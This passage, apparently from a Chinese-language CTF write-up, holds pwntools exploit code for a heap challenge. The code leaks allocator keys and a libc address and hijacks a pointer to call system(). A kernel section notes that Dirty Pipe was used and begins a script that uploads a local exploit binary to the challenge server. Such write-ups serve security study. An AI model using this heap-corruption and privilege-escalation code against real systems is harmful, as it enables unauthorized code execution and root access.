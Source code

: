 ```py
        shadow_key_1 = show(0)[0x40 - 16:]
        log.success(f"shadow_key_1[{len(shadow_key_1)}]: {hex(u64(shadow_key_1))}")
        delete(1)
        leak = u64(show(0)[0x40 - 16 + 8:] + b'\x00\x00')
        log.success(f"leak: {hex(leak)}")
        libc_base_guess = leak  # - (leak & 0xffffff)
        libc_base_guess += 0x13000 - 0xa0
        log.success(f"libc_base_guess: {hex(libc_base_guess)}")
        delete(0)

        add(0, 0x80, b'A' * (0x80 - 16))
        add(1, 0x80, b'B' * (0x80 - 16))
        shadow_key_2 = show(0)[0x80 - 16:]
        log.success(f"shadow_key_2[{len(shadow_key_2)}]: {hex(u64(shadow_key_2))}")
        delete(1)
        delete(0)

        add(0, 0x100, b'A' * (0x100 - 16))
        add(1, 0x100, b'B' * (0x100 - 16))
        shadow_key_3 = show(0)[0x100 - 16:]
        log.success(f"shadow_key_3[{len(shadow_key_3)}]: {hex(u64(shadow_key_3))}")
        delete(1)
        delete(0)

        add(5, 0x100, b'C' * (0x80 - 16) + shadow_key_2 + p64(0x404078))
        add(4, 0x80, b'C' * (0x80 - 16))  # overflow

        add(3, 0x80, b'C' * (0x40 - 16) + shadow_key_1 + shadow_key_2)  # set free_list 2 as 0x404078
        add(0, 0x40, b'D' * (0x40 - 16))  # overflow
        add(1, 0x40, b'X')  # set free_list 1 as shadow_key_2

        victim_addr = 0x404088
        hijack_free = libc.symbols["system"] + libc_base_guess

        add(3, 0x80, b'a' * (0x4040B8 - 0x404088) + p64(hijack_free))  # we are writing to 0x404088

        delete(6)
        p.interactive()
    except Exception as e:
        if e == KeyboardInterrupt:
            break
    p.close()

```
### kernel
有dirtypipe就不打ko的洞了
https://dirtypipe.cm4all.com/  
```py
from pwn import *
import base64


with open("./a.out", "rb") as f:
    exp = base64.b64encode(f.read())

p = remote("pwn.challenge.ctf.show", 28103)
# p = process(['./run.sh'])

p.sendlineafter(b'CTFshowPWN login:', b'ctfshow')
p.sendlineafter(b'Password:', b'ctfshow')
count = 0
```